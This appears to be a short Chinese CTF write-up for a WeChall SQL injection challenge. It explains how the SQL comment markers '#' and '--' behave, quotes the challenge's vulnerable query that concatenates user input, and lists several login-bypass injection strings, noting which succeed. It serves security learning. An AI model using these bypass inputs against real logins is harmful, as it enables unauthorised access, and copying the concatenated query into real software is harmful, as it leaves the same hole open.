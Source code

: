 ```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格
原题代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
```
admin' ;#                           可以
admin' #                            可以，sql中也使用分号划分语句
admin' or 1=1;#                     不可以，此时没有以admin身份登录

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```

 